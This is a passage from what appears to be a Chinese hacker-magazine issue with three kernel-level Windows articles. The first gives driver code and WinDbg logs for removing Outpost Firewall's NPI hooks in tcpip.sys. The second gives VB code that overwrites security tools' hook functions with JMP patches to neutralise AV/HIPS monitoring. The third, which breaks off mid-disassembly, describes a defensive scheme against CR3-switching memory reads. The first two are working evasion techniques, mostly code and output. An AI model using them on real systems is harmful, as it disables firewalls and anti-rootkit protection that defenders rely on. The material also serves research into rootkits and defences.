因为我们获得了 tcpip.sys 被加载的副本，那么检索表的真正句柄就不是一个大问题了。这将在 `GetRealTcpipDispatchTable()` 函数中实现。

```c
static
NTSTATUS
GetRealTcpipDispatchTable(
    __in PMEMORY_CHUNK OriginalTcpip,
    __in PMEMORY_CHUNK LoadedTcpip,
    __in PVOID* OriginalDispatchTable,
    __out PVOID* RealDispatchTable,
    __in ULONG PointersCount
);
```

这个函数从被加载的 tcpip.sys 的副本中获得了真正的句柄指针并修改它们，使得它们指向原始的 tcpip.sys 模块。`GetRealXxxTlProviderDispatch()`、`GetRealXxxTlProviderEndpointDispatch()`、`GetRealTcpDispatches()` 和 `GetRealMessageDispatches()` 函数使用上述 1)、3)、5)、7) 中的 `GetRealTcpipDispatchTable()`。

虽然获得 `XxxTlProviderDispatch` 表的指针变得很简单，但是检索 `XxxTlProviderEndpointDispatch`、`TcpTlProviderListenDispatch`、`TcpTlProviderConnectDispatch`、`XxxTlProviderMessageDispatch` 表将变得复杂。因为不知道内部的 tcpip.sys 接口，所以要获得这些表的指针，就要进行一个很大的逆向工程来推算得到。

##### 内部 tcpip.sys 接口

每个 tcpip.sys 的分发表的句柄都有如下的原型：

```c
typedef NTSTATUS (NTAPI* PROVIDER_DISPATCH)(
    __in PVOID Endpoint,
    __in PTL_ENDPOINT_DATA ProviderData
);
```

我们可以将 `TL_ENDPOINT_DATA` 结构体描述为：

```c
typedef struct _TL_ENDPOINT_DATA {
    GET_DISPATCH GetDispatch;
    PVOID GetDispatchContext;
    PVOID Flags;
    USHORT Family;
#if defined(_AMD64)
    PVOID Unk5;
#endif
    PEPROCESS Process;
    PETHREAD Thread;
    PVOID Object;
    PSOCKADDR_IN Addr1;
    PVOID Unk10;
    PVOID Unk11;
    PSOCKADDR_IN Addr2;
    PVOID Unk13;
    PVOID Unk14;
    PVOID Unk15;
    PVOID Unk16;
} TL_ENDPOINT_DATA, *PTL_ENDPOINT_DATA;
```

这个结构体描述了那些传递给句柄的信息，目的是在 tcpip.sys 的特殊实体中创建所谓的“端点”。这些实体的调用类似于 BSD Socket 调用，但它们都有自己的一套句柄。所以为了使用这些句柄，我们必须获得指向分发表的指针。`TL_ENDPOINT_DATA` 结构的第一个成员是一个指向回调函数的指针，如果一个与 tcpip.sys 子模块的连接已经被成功安装，那么它将被 tcpip.sys 调用。

在这里 tcpip.sys 为其内部结构分配了内存空间，并复制了 `TL_ENDPOINT_DATA` 结构的一部分到这个空间中，然后将这个指针作为第三个参数传递给回调函数。这时 tcpip.sys 的客户端不必改变内存，只需传递这个指针给下一个句柄。回调函数的原型如下：

```c
typedef NTSTATUS (NTAPI* GET_DISPATCH)(
    __in PVOID Context,
    __in NTSTATUS Status,
    __in PVOID Endpoint,
    __in PVOID DispatchTable
);
```

作为回调函数的第一个参数，tcpip.sys 将传递 `TL_ENDPOINT_DATA`，`GetDispatchContext` 的值用来返回分发表的一些内容。`DispatchTable` 指针是我们想要的——这是一个指向内部分发表的指针，指向上述的结构体；它由 tcpip.sys 分配，然后传递给回调函数。在进行了逆向工程的实验后我们得到了一些结果：

- `Family` 域必须包含一个 `AF_XXX` 值，为的是成功地调用 `TL_PROVIDER_DISPATCH.Endpoint`。
- `Process` 域必须指向客户端进程的 `EPROCESS` 结构。
- `Thread` 域必须指向客户端线程的 `ETHREAD` 结构。
- `Addr1` 域必须指向正确填充的 `SOCKADDR_IN` 结构，以防 `TL_PROVIDER_DISPATCH.Listen` 或者 `TL_PROVIDER_DISPATCH.Connect` 调用。
- `Addr2` 域必须指向正确填充的 `SOCKADDR_IN` 结构，以防 `TL_PROVIDER_DISPATCH.Connect` 调用。

我们发现，当 `Family` 等于 `AF_INET`，`Process` 域指向正确的进程，`Thread` 域指向正确的线程时，任何操作都会顺利进行。域中的其他部分没有被使用，即使它们为零也不会影响正常的调用。

下面我们看看 `GetEndpointDispatches()` 函数，它用于检索 `XxxTlProviderEndpointDispatch` 表。

```c
static
NTSTATUS
GetEndpointDispatches(
    __inout PTL_DISPATCH_TABLES Dispatches
)
{
    PROVIDER_DISPATCH_UNKI DispatchUnki = {0};
    TL_ENDPOINT_DATA EndpointData = {0};
    GET_DISPATCH_CONTEXT GetDispatchContext = {0};
    NTSTATUS Status = STATUS_UNSUCCESSFUL;
    ...
}
```

填充 `TL_ENDPOINT_DATA` 结构：

```c
EndpointData.GetDispatch = GetDispatchCallback;
EndpointData.GetDispatchContext = &GetDispatchContext;
EndpointData.Family = AF_INET;
EndpointData.Process = PsGetCurrentProcess();
EndpointData.Thread = PsGetCurrentThread();
GetDispatchContext.DispatchTable = &Dispatches->TcpTlProviderEndpointDispatch;
GetDispatchContext.Endpoint = NULL;
Dispatches->TcpTlProviderEndpointDispatch = NULL;
```

回调函数很简单：

```c
static
NTSTATUS
NTAPI
GetDispatchCallback(
    __in PGET_DISPATCH_CONTEXT Context,
    __in NTSTATUS Status,
    __in PVOID Endpoint,
    __in PVOID DispatchTable
)
{
    if (!Context || !Context->DispatchTable)
        return STATUS_INVALID_PARAMETER;
    Context->Endpoint = Endpoint;
    *Context->DispatchTable = DispatchTable;
    return STATUS_SUCCESS;
}
```

注册连接：

```c
Status = Dispatches->RealTcpTlProviderDispatch.Endpoint(&DispatchUnki, &EndpointData);
if (!NT_SUCCESS(Status)) {
    KdPrint(("GetXxxTlProviderEndpointDispatch():\n"
    "TcpTlProviderDispatch->Endpoint() failed with status"
    "0x%08X\n", Status));
    return Status;
}
```

正如看到的那样，我们使用真正的 `Endpoint` 句柄来避免被防火墙抓住，因为防火墙会通过自己的句柄返回给我们假的分发表。在连接注册之后，我们必须关闭它，并从端点断开连接。

```c
if (GetDispatchContext.Endpoint) {
    Status = Dispatches->TcpTlProviderEndpointDispatch->CloseEndpoint(GetDispatchContext.Endpoint, NULL);
    if (!NT_SUCCESS(Status)) {
        KdPrint(("GetXxxTlProviderEndpointDispatch():"
        "TcpTlProviderDispatch->CloseEndpoint() failed with status"
        "0x%08X\n", Status));
    }
}
```

端点标识符 `Endpoint` 被作为第一个参数传递给 `CloseEndpoint()` 句柄，这样就可以正确地断开连接。同样我们拥有 `UdpTlProviderDispatch` 和 `RawTlProviderDispatch` 表的指针，而检索 `TcpTlProviderListenDispatch`、`TcpTlProviderConnectDispatch`、`XxxTlProviderMessageDispatch` 表，操作过程都和上述相似，此时我们必须关注 `Addr1` 和 `Addr2` 域。

##### 解除 NPI Hook

解除 `XxxTlProviderXxxDispatch` 表 Hook 的代码位于 `UnhookNPI()` 函数里。整个解除 Hook 的过程可以分成 4 步：

- 解除对 `XxxTlProviderDispatch` 表的句柄的 Hook；
- 解除对 `XxxTlProviderEndpointDispatch` 表的句柄的 Hook；
- 解除对 `TcpTlProviderListenDispatch` 和 `TcpTlProviderConnectDispatch` 表的句柄的 Hook；
- 解除对 `UdpTlProviderMessageDispatch` 和 `RawTlProviderMessageDispatch` 表的句柄的 Hook。

用来恢复分发表的函数是 `RestoreTcpipDispatchTable()`：

```c
static
NTSTATUS
RestoreTcpipDispatchTable(
    __in PMEMORY_CHUNK OriginalTcpip,
    __in PVOID *OriginalDispatchTable,
    __in PVOID *RealDispatchTable,
    __in ULONG DispatchTableSize
)
```

##### 恢复 tcpip.sys 分发表

调用程序将传递给该函数原始 tcpip.sys 的镜像基址、镜像大小、原始分发表指针、分发表指针和分发表大小。首先，我们必须确保原始分发表在 tcpip.sys 中被保存：

```c
if ((ULONG_PTR)OriginalDispatchTable < (ULONG_PTR)OriginalTcpip->Buffer ||
    (ULONG_PTR)OriginalDispatchTable + DispatchTableSize >
    (ULONG_PTR)OriginalTcpip->Buffer + OriginalTcpip->Size) {
    KdPrint(("RestoreTcpipDispatchTable(): Dispatch table %p is out of tcpip.sys' range..."));
    return STATUS_UNSUCCESSFUL;
}
```

如果分发表没有被 Hook 的话，我们就不用担心什么了。

```c
if (!memcmp(OriginalDispatchTable, RealDispatchTable, DispatchTableSize))
    return STATUS_SUCCESS;
```

如果一些句柄被 Hook 了，那么需要对这个分发表进行映射，并提供其对内存的写权限。

```c
PMDL OriginalDispatchTableMdl = NULL;
PVOID* MappedOriginalDispatchTable = NULL;
...
OriginalDispatchTableMdl = IoAllocateMdl(OriginalDispatchTable, DispatchTableSize, FALSE, FALSE, NULL);
if (!OriginalDispatchTableMdl)
    return STATUS_INSUFFICIENT_RESOURCES;
try {
    MmProbeAndLockPages(OriginalDispatchTableMdl, KernelMode, IoWriteAccess);
} except (EXCEPTION_EXECUTE_HANDLER) {
    IoFreeMdl(OriginalDispatchTableMdl);
    return STATUS_ACCESS_VIOLATION;
}
MappedOriginalDispatchTable = MmMapLockedPagesSpecifyCache(...);
if (!MappedOriginalDispatchTable) {
    MmUnlockPages(OriginalDispatchTableMdl);
    IoFreeMdl(OriginalDispatchTableMdl);
    return STATUS_UNSUCCESSFUL;
}
```

然后，恢复分发表：

```c
RtlCopyMemory(MappedOriginalDispatchTable,
              RealDispatchTable,
              DispatchTableSize);
```

###### 解除 Hook 的 XxxTlProviderDispatch 表

```c
static
NTSTATUS
UnhookXxxTlProviderDispatch(
    __in PTL_DISPATCH_TABLES Dispatches,
    __in PMEMORY_CHUNK OriginalTcpip
)
```

```c
...
Status = RestoreTcpipDispatchTable(
    OriginalTcpip,
    (PVOID*)Dispatches->TcpTlProviderDispatch,
    (PVOID*)&Dispatches->RealTcpTlProviderDispatch,
    sizeof(TL_PROVIDER_DISPATCH));
if (!NT_SUCCESS(Status)) {
    KdPrint(("UnhookXxxTlProviderDispatch(): RestoreTcpipDispatchTable(TcpTlProviderDispatch) failed..."));
    return Status;
}
Status = RestoreTcpipDispatchTable(
    OriginalTcpip,
    (PVOID*)Dispatches->UdpTlProviderDispatch,
    (PVOID*)&Dispatches->RealUdpTlProviderDispatch,
    sizeof(TL_PROVIDER_DISPATCH));
if (!NT_SUCCESS(Status)) {
    KdPrint(("UnhookXxxTlProviderDispatch(): RestoreTcpipDispatchTable(UdpTlProviderDispatch) failed..."));
    return Status;
}
...
```

以上是所有我们需要解除 Hook 的 tcpip.sys 的分发表，NPI 防火墙被破坏了。下面我们将通过 Outpost Firewall Pro 2009（v6.5, x86）在 npisubvert.sys 中执行所有我们想要的操作。

```text
kd> g
TCPIPSYS image region: 0x8819F000..0x88270000

TcpTlProviderDispatch: 0x8824A8FC
  IoControl: 0x88220C52 (...)
  QueryDispatch: 0x8822A004 (...)
  Endpoint: ... HOOKED by afwcore.sys
  Message: ...
  Listen: ... HOOKED by afwcore.sys
  ReleaseIndicationList: ... HOOKED by afwcore.sys
  Cancel: ... HOOKED by afwcore.sys

TcpTlProviderEndpointDispatch: 0x8824A91C
  CloseEndpoint: ... HOOKED by afwcore.sys
  IoControlEndpoint: ... HOOKED by afwcore.sys
  QueryDispatchEndpoint: ...

TcpTlProviderConnectDispatch: 0x8824A938
  CloseEndpoint: ... HOOKED by afwcore.sys
  IoControlEndpoint: ...
  QueryDispatchEndpoint: ...
  Send: ... HOOKED by afwcore.sys
  Receive: ... HOOKED by afwcore.sys
Disconnect: 0x8BA841DA (0x881FA886 real) HOOKED by afwcore.sys
...
TcpTlProviderListenDispatch: 0x8824A928
CloseEndpoint: 0x8BA86012 (0x881C5C44 real) HOOKED by afwcore.sys
IoControlEndpoint: 0x881B11A6 (0x881B11A6 real)
QueryDispatchEndpoint: 0x88229FEE (0x88229FEE real)
ResumeConnection: 0x88220C42 (0x88220C42 real)
...
UdpTlProviderDispatch: 0x8824ACE4
IoControl: 0x88228C0B (0x88228C0B real)
QueryDispatch: 0x8822A004 (0x8822A004 real)
Endpoint: 0x8BA87EF2 (...) HOOKED by afwcore.sys
Message: 0x8BA87CC2 (...) HOOKED by afwcore.sys
...
RawTlProviderDispatch: 0x8824AE58
...
RawTlProviderEndpointDispatch: 0x8824AE78
...
RawTlProviderMessageDispatch: 0x8824AE84
...
SendMessages: 0x88229350 (0x88229350 real)
```

此时，NPI Hook 已经完全成功清除！下面让我们检查解除 Hook 的表：

```text
kd> dd TcpTlProviderDispatch
8824a8fc  88220c52 8822a004 881db212 88229ff9
8824a90c  881c9e59 881ddf90 881dfcc4 881c979b
```

```text
kd> u 88220c52
...
tcpip!TcpTlProviderToControl:
88220c52 8bff     mov edi,edi
88220c54 55       push ebp
88220c55 8bec     mov ebp,esp
88220c57 8b450c   mov eax,dword ptr [ebp+0Ch]

kd> u 881ddf90
...
tcpip!TcpTlProviderConnect:
...
881ddf96 e97cedff ff jmp tcpip!TcpCreateAndConnectTcb (...)
```

等一段时间再试（防火墙可以恢复 Hook 吗？）：

```text
kd> g
TCPIP.SYS image region: 0x8819f000..0x88270000

TcpTlProviderDispatch: 0x8824A8FC
IoControl: 0x88220C52 (... real)
QueryDispatch: 0x8822A004 (... real)
Endpoint: 0x881DB212 (... real)
Message: 0x88229FF9 (... real)
Listen: 0x881C9E59 (... real)
ReleaseIndicationList: 0x881DFCC4 (... real)
Cancel: 0x881C979B (... real)

TcpTlProviderEndpointDispatch: 0x8824A91C
...
TcpTlProviderConnectDispatch: 0x8824A938
...
Send: 0x8820E188 (... real)
```

然后可以试试 x64 版本的防火墙 Outpost Firewall Pro 2008 v6.0：

```text
kd> dq TcpTlProviderConnectDispatch
fffffa60`00f83278  fffffa60`026e2a9c fffffa60`00ec60e0
...
kd> u fffffa60`026e2a9c
*** ERROR: Module load completed but symbols could not be loaded for afw.sys
afw+0xda9c:
fffffa60`026e2a9c 48895c2408 mov qword ptr [rsp+8],rbx
...
kd> u fffffa60`026e3d30
afw+0xed30:
...
fffffa60`026e3d30 48895c2408    mov qword ptr [rsp+8],rbx
fffffa60`026e3d35 48896c2410    mov qword ptr [rsp+10h],rbp
fffffa60`026e3d3a 4889742420    mov qword ptr [rsp+20h],rsi
fffffa60`026e3d3f 57            push rdi
fffffa60`026e3d40 4883ec50      sub rsp,50h
...
kd> dq RawTlProviderMessageDispatch
fffffa60`0082e08  ffffa60`026e7d04 ffffa60`00e70000
fffffa60`0082e18  ffffa60`00ee23cc ffffa60`00e84860

kd> u ffffa60`026e7d04
afw+0x12d04:
fffffa60`026e7d04 48895c2408    mov qword ptr [rsp+8],rbx
fffffa60`026e7d09 48896c2410    mov qword ptr [rsp+10h],rbp
fffffa60`026e7d0e 56            push rsi
fffffa60`026e7d0f 57            push rdi
fffffa60`026e7d10 4154          push r12
fffffa60`026e7d12 4883ec20      sub rsp,20h
fffffa60`026e7d16 4c8bc1        mov r8,rcx
fffffa60`026e7d19 4c8bca        mov r9,rdx
```

```text
Receive: 0xFFFFFA60026E3AC4 (0xFFFFFA6000EC0270 real) HOOKED by afw.sys
Disconnect: 0xFFFFFA60026E4710 (0xFFFFFA6000EC8F40 real) HOOKED by afw.sys

TcpTlProviderListenDispatch: 0xFFFFFA6000F83258
  CloseEndpoint: 0xFFFFFA60026E32F4 (0xFFFFFA6000E89F20 real) HOOKED by afw.sys
  IoControlEndpoint: 0xFFFFFA6000E6F680 (0xFFFFFA6000E6F680 real)
  QueryDispatchEndpoint: 0xFFFFFA6000EE23CC (0xFFFFFA6000EE23CC real)
  ResumeConnection: 0xFFFFFA6000F74740 (0xFFFFFA6000F74740 real)

UdpTlProviderDispatch: 0xFFFFFA6000F82F70
  IoControl: 0xFFFFFA6000F2CC10 (0xFFFFFA6000F2CC10 real)
  QueryDispatch: 0xFFFFFA6000EE23B4 (0xFFFFFA6000EE23B4 real)
  Endpoint: 0xFFFFFA60026E6108 (0xFFFFFA6000ECC850 real) HOOKED by afw.sys
  Message: 0xFFFFFA60026E70EC (0xFFFFFA6000EC7D40 real) HOOKED by afw.sys
  Listen: 0xFFFFFA6000EE23D8 (0xFFFFFA6000EE23D8 real)
  ReleaseIndicationList: 0xFFFFFA6000F2CBF0 (0xFFFFFA6000F2CBF0 real)
  Cancel: 0xFFFFFA6000EE23F0 (0xFFFFFA6000EE23F0 real)

UdpTlProviderEndpointDispatch: 0xFFFFFA6000F82FB0
  CloseEndpoint: 0xFFFFFA60026E6778 (0xFFFFFA6000ECD9D0 real) HOOKED by afw.sys
  IoControlEndpoint: 0xFFFFFA60026E6A84 (0xFFFFFA6000EC9EB0 real) HOOKED by afw.sys
  QueryDispatchEndpoint: 0xFFFFFA6000EE23CC (0xFFFFFA6000EE23CC real)

UdpTlProviderMessageDispatch: 0xFFFFFA6000F82FC8
  CloseEndpoint: 0xFFFFFA60026E6778 (0xFFFFFA6000ECD9D0 real) HOOKED by afw.sys
  IoControlEndpoint: 0xFFFFFA60026E6A84 (0xFFFFFA6000EC9EB0 real) HOOKED by afw.sys
  QueryDispatchEndpoint: 0xFFFFFA6000EE23CC (0xFFFFFA6000EE23CC real)
  SendMessages: 0xFFFFFA60026E68C0 (0xFFFFFA6000EACE60 real) HOOKED by afw.sys

RawTlProviderDispatch: 0xFFFFFA6000F82DB0
  IoControl: 0xFFFFFA6000EE23FC (0xFFFFFA6000EE23FC real)
  QueryDispatch: 0xFFFFFA6000EE23B4 (0xFFFFFA6000EE23B4 real)
  Endpoint: 0xFFFFFA60026E76FC (0xFFFFFA6000E6D190 real) HOOKED by afw.sys
  Message: 0xFFFFFA60026E7EAC (0xFFFFFA6000E6CFE0 real) HOOKED by afw.sys
  Listen: 0xFFFFFA6000EE23D8 (0xFFFFFA6000EE23D8 real)
  ReleaseIndicationList: 0xFFFFFA6000F2CBF0 (0xFFFFFA6000F2CBF0 real)
  Cancel: 0xFFFFFA6000EE23F0 (0xFFFFFA6000EE23F0 real)
```

运行 npisubvert.sys：

```text
TCPIP.SYS image region: 0xFFFFFA6000E67000..0xFFFFFA6000FDB000

TcpTlProviderDispatch: 0xFFFFFA6000F83200
  IoControl: 0xFFFFFA6000F47430 (0xFFFFFA6000F47430 real)
  QueryDispatch: 0xFFFFFA6000EE23B4 (0xFFFFFA6000EE23B4 real)
  Endpoint: 0xFFFFFA60026E1540 (0xFFFFFA6000EC5B70 real) HOOKED by afw.sys
  Message: 0xFFFFFA6000EE23C0 (0xFFFFFA6000EE23C0 real)
  Listen: 0xFFFFFA60026E2CB4 (0xFFFFFA6000E8B420 real) HOOKED by afw.sys
  ReleaseIndicationList: 0xFFFFFA60026E444C (0xFFFFFA6000EC0D60 real) HOOKED by afw.sys
  Cancel: 0xFFFFFA60026E426C (0xFFFFFA6000F78680 real) HOOKED by afw.sys

TcpTlProviderEndpointDispatch: 0xFFFFFA6000F83240
  CloseEndpoint: 0xFFFFFA60026E1B90 (0xFFFFFA6000EC2010 real) HOOKED by afw.sys
  IoControlEndpoint: 0xFFFFFA60026E1C8C (0xFFFFFA6000EC99E0 real) HOOKED by afw.sys
  QueryDispatchEndpoint: 0xFFFFFA6000EE23CC (0xFFFFFA6000EE23CC real)

TcpTlProviderConnectDispatch: 0xFFFFFA6000F83278
  CloseEndpoint: 0xFFFFFA60026E2A9C (0xFFFFFA6000EC93E0 real) HOOKED by afw.sys
  IoControlEndpoint: 0xFFFFFA6000EC60E0 (0xFFFFFA6000EC60E0 real)
  QueryDispatchEndpoint: 0xFFFFFA6000EE23CC (0xFFFFFA6000EE23CC real)
  Send: 0xFFFFFA60026E3D30 (0xFFFFFA6000FD51A0 real) HOOKED by afw.sys
```

```text
RawTlProviderEndpointDispatch: 0xFFFFFA6000F82DF0
CloseEndpoint: 0xFFFFFA60026E7D04 ... HOOKED by afw.sys
IoControlEndpoint: 0xFFFFFA6000E70000
QueryDispatchEndpoint: 0xFFFFFA6000EE23CC

RawTlProviderMessageDispatch: 0xFFFFFA6000F82E08
CloseEndpoint: 0xFFFFFA60026E7D04 ... HOOKED by afw.sys
IoControlEndpoint: 0xFFFFFA6000E70000
QueryDispatchEndpoint: 0xFFFFFA6000EE23CC
SendMessages: 0xFFFFFA6000E84860
```

```text
IoControl: 0xFFFFFA6000F47430
QueryDispatch: 0xFFFFFA6000EE23B4
Endpoint: 0xFFFFFA60026E1540 ... HOOKED by afw.sys
Message: 0xFFFFFA6000EE23C0
Listen: 0xFFFFFA60026E2CB4 ... HOOKED by afw.sys
ReleaseIndicationList ... HOOKED by afw.sys
Cancel ... HOOKED by afw.sys

TcpTlProviderEndpointDispatch: 0xFFFFFA6000F83240
CloseEndpoint: 0xFFFFFA60026E1B90 ... HOOKED by afw.sys
...
TcpTlProviderConnectDispatch: 0xFFFFFA6000F83278
CloseEndpoint: 0xFFFFFA60026E2A9C ... HOOKED by afw.sys
Send ... HOOKED by afw.sys
Receive ... HOOKED by afw.sys
Disconnect ... HOOKED by afw.sys

TcpTlProviderListenDispatch: 0xFFFFFA6000F83258
CloseEndpoint ... HOOKED by afw.sys
IoControlEndpoint ...
QueryDispatchEndpoint ...
ResumeConnection: 0xFFFFFA6000F74740
......
```

可见，已经没有任何 Hook 了：

```text
kd> dg RawTlProviderMessageDispatch
... fffffa60`00f82e08 ...

kd> u fffffa60`00f74170
tcpip!RawTlProviderCloseEndpoint:
... jmp tcpip!RawCloseEndpoint ...

kd> dq TcpTlProviderConnectDispatch
...

kd> u fffffa60`00ec93e0
tcpip!TcpTlConnectionCloseEndpoint:
... call tcpip!TcpCloseTcb ...
... ret
```

对 NPI 防火墙破坏进行得很顺利，下面我们要进行一些额外的实验——尝试通过 Outpost 运行 wsksample.sys，Outpost 的窗口可以直接显示结果。下面是一些记录：

```text
MakeHttpRequest(): Connecting to the 74.125.45.100:80...
MakeHttpRequest(): WskConnect() failed with status 0xC0000001
(重复多次)
```

现在，防火墙会去阻止 wsksample.sys，然后运行 npisubvert.sys。

```text
TCPIP.SYS image region: 0xFFFFFA6000F67000 - 0xFFFFFA6000FDB000

TcpTlProviderDispatch: 0xFFFFFA6000F83200
```

这样，NPI 的 Hook 就被成功地清除了。

```text
MakeHttpRequest(): WskConnect() failed with status 0xC00000B5
MakeHttpRequest(): Connecting to the 74.125.45.100:80...
MakeHttpRequest(): WskConnect() failed with status 0xC00000B5
(重复多次)


```

当防火墙从 NPI 层阻止应用程序的调用时，将发生错误 0xC0000001（STATUS_UNSUCCESSFUL）。错误 0xC00000B5（STATUS_IO_TIMEOUT）也发生了，因为 TCP/IP 堆栈已经等待了很长时间，并且没有建立一个连接。tcpip.sys 传递 SYN 包给网络驱动并等待 SYN+ACK 回复。但是，这将会被基于 NDIS 的第二道防火墙阻止。防火墙窗口不再显示，因为防火墙不能拦截任何应用程序的调用。换句话说，我们不能仅仅通过使用 NPI 解除 Hook 的方法完全绕过防火墙。而且，一种基于 NDIS v6 的防火墙，在 Windows Vista 中被引进，会更容易地解除 Hook，可能这将会引起新一轮的逆向工程的研究了。

- 前置知识：VC
- 关键词：编程、Hook、Call Hook

##### JMP 大法对抗 Call Hook
文/图 广东工业大学 胡文亮

在 Rootkit 和 Anti-Rootkit 的斗争中，很大程度上是 Hook 和 Unhook 的斗争。AV/HIPS 想尽办法 Hook/Unhook 各种系统函数，企图抓住 Rootkit 作恶的蛛丝马迹，而 Rootkit 也使出浑身解数 Hook/Unhook 各种系统函数，让 AV/HIPS 对自己鞭长莫及。本文提供一种新型的对抗 CALL Hook 的方法，截至目前网上没有任何代码（哪怕是核心代码）。这种方法没有恢复钩子，但却完全达到了恢复钩子的目的。

CALL Hook 的基本原理就是把某函数要 CALL 的敏感函数换成自己的函数并加以处理，有些人还开个线程或者是注册个 DPC 来监视钩子是否存在，并根据自身的人品高低来选择钩子消失后是重新挂钩还是直接蓝屏。但这些人忽略了一个问题，钩子还在，就一定能发挥用途吗？这就是本文的核心：得到伪函数的地址并修改其头 5 字节为 JMP，跳回到要 CALL 的真函数中。

首先反汇编内存中的代码，并通过对比读取内核文件得到的信息，来确定被 CALL Hook 的地点，以及伪函数的地址（为了方便，这两步我直接通过 WinDBG 完成）。表 1 的数据是在打开 XueTr 时在本机得到的。

表 1

| 函数名称 | 地址 | 应该 CALL 的地址 | 实际 CALL 的地址 |
|---|---|---|---|
| NtOpenProcess - 0x224 | 805cc62c | 805bcc78 | b4655166 |
| NtTerminateProcess + 0x4a | 805d39f4 | 805bc49e | b465558a |

我们要做的，就是把“实际 CALL 的地址”的头 5 个字节改为 JMP，跳到“应该 CALL 的地址”，如表 2 所示。

表 2

| 地址 | 反汇编代码 |
|---|---|
| b4655166 | JMP 805bcc78 |
| b465558a | JMP 805bc49e |

由于 JMP AABBCCDD 不能写成 E9 AA BB CC DD，所以机器码要计算才能得到。下面是实现的代码。

```vb
' 参数：伪函数的地址，要 JMP 到的真函数的地址
Public Sub JmpAntiCallHook(ByVal Cur_Addr As Long, ByVal Dst_Addr As Long)
    Dim Distance As Long '距离
    Dim szDistance As String '字符串类型的十六进制数
    Dim FuckBytes(4) As Byte '要修改的 5 字节
    Distance = Dst_Addr - Cur_Addr - 5 '计算距离
    szDistance = Hex(Distance)
    '把数字转换成字符串类型的十六进制
    FuckBytes(0) = &HE9 'JMP
    FuckBytes(1) = Val("&h" & Mid(szDistance, 7, 2))
    FuckBytes(2) = Val("&h" & Mid(szDistance, 5, 2))
    FuckBytes(3) = Val("&h" & Mid(szDistance, 3, 2))
    FuckBytes(4) = Val("&h" & Mid(szDistance, 1, 2))
    ModifyKernelMemory2 Cur_Addr, 5, FuckBytes
End Sub
```

ModifyKernelMemory2 是我自己实现的修改内核数据的函数，其原型如下：

```vb
' 参数：地址、要修改的字节数、字节数组
Public Sub ModifyKernelMemory2(ByVal Address As Long, ByVal nSize As Long, ByRef BytBuf() As Byte)


```

它可用 NtSystemDebugControl 实现，亦可自己写驱动实现一个。修改前 WinDBG 的反汇编结果如图 1 所示，修改后 WinDBG 的反汇编结果如图 2 所示。此时，任务管理器也能结束 XueTr 了，但钩子却仍然存在，如图 3 所示。
图 1

同理，我们也可以对付普通的 JMP Hook。比如得到冰刃的 IS_Fake_NtOpenProcess 的地址后，修改 IS_Fake_NtOpenProcess 前 5 个字节为 68 C4 00 00 00（这是 Windows XP 下的数据，具体是什么要对照内核文件），第 6 至 10 字节为 JMP [Real_NtOpenProcess+5]（机器码要通过计算才知道）即可。

我估计如此对付 RkU 的 Inline Hook（修改了 NtOpenProcess 的第 6 到 10 字节）和 KV 的 Inline Hook（修改了 KiInsertQueueApc 的第 2 到 7 字节）也是可以的，大家感兴趣的话可以试试。
图 2
图 3

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：编程、CR3、驱动、内存保护

##### 防止直接切换 CR3 读写进程内存
文/图 NewbieCoder[0GiNr]

内存保护是一个有些年头的话题了。众所周知，在目前的大环境下，不可能做到所有线程并发执行，这也就意味着线程必须分享 CPU 时间。而线程显然各有不同的进程上下文（在此处我们只考虑其所在的虚拟内存空间），此时为了能够让线程分享 CPU 时间，同时不影响其他线程的执行，操作系统就需要负责在将 CPU 时间分给某个线程之前，对其运行上下文进行某些操作，以保证其接着运行时的上下文与之前其被中断时的上下文相同。

显然，其虚拟内存空间也是所需要保存、恢复的内容之一（当然，同进程的不同线程之间切换时不需要这样做）。换句话说，切换线程时需要重新载入 CR3，因此 CR3 必然需要保存在内存的某个位置信息，也就是 KPROCESS 中的 DirectoryTableBase：

```text
lkd> dt _KPROCESS
+0x000 Header           : _DISPATCHER_HEADER
+0x010 ProfileListHead  : _LIST_ENTRY
...（含 DirectoryTableBase 字段）
+0x018 DirectoryTableBase : [2] Uint4B
```

显然，贸然修改 DirectoryTableBase 会导致虚拟内存到物理内存的映射出现问题，因此这个值被认为是很难修改的，所以不少初学者都会认为直接从 KPROCESS 的 DirectoryTableBase 中取出 CR3，然后自行切换 CR3 即可绕过各种内存保护，实现进程内存的读写，并根据 DirectoryTableBase 不可轻易修改而得出结论：这种做法是无法阻止的。

但实际并非如此。本文将介绍一种通过拦截操作系统切换 CR3 指令的方法，使得切换到特定进程的线程时，不再依赖于 KPROCESS 中的 DirectoryTableBase，因此将无法从 KPROCESS 的 DirectoryTableBase 中取得进程的 CR3，进而防止直接切换 CR3 来读写进程内存。

###### 可以切换 CR3 的函数

显然，若要拦截切换 CR3 的指令的前提是需要知道这些指令所在位置，这个可以自己写段代码搜一下 ntkrnlpa 的代码段，此处仅需要搜索不可分页的代码段，因为切换上下文，也即切换 CR3 的代码显然位于 Kernel 层，因此所有 Executive 层的代码可以不予考虑（搜索特定指令的代码较容易写出，此处从略）。

经过搜索，切换 CR3 的代码存在于 KiSwapProcess 及 SwapContext 中，均为“mov cr3,eax”。

###### 相关函数的定位

KiSwapProcess 及 SwapContext 均未导出，需要自行定位，其中 SwapContext 可于 KiDispatchInterrupt 中搜索到，KiSwapProcess 则可在 KeDetachProcess 中搜索到。搜索代码分别如下：

```c
PVOID LocateKiSwapProcess(VOID)
{
    UCHAR *cPtr, *pOpcode;
    ULONG Length;
    for (cPtr = (UCHAR *)KeDetachProcess; cPtr != (UCHAR *)KeDetachProcess + SizeOfProc(KeDetachProcess); cPtr += Length) {
        Length = SizeOfCode(cPtr, &pOpcode);
        if (!Length) {
            return NULL;
        }
        if (*pOpcode == 0xE8 && *(pOpcode + 5) == 0x8A) {
            return pOpcode + 5 + *(ULONG *)(pOpcode + 1);
        }
    }
    return NULL;
}
```

```c
LocateSwapContext(
VOID
)
{
    UCHAR *cPtr, *pOpcode;
    ULONG Length;
    for (cPtr = (UCHAR *)KiDispatchInterrupt; cPtr != (UCHAR *)KiDispatchInterrupt + SizeOfProc(KiDispatchInterrupt); cPtr += Length) {
        Length = SizeOfCode(cPtr, &pOpcode);
        if (!Length) {
            return NULL;
        }
        if (*((SHORT *)cPtr) == 0x01B1 && *(cPtr + 2) == 0xE8) {
            pOpcode += 2;
            return pOpcode + 5 + *(ULONG *)(pOpcode + 1);
        }
    }
    return NULL;
}
```

###### 修改代码拦截切换 CR3 的指令

现节选 SwapContext 的反汇编结果如下：

```text
loc_469B1C:
mov ecx, [ebx+40h] ; TSS
mov [ecx+_KTSS.Esp0], eax
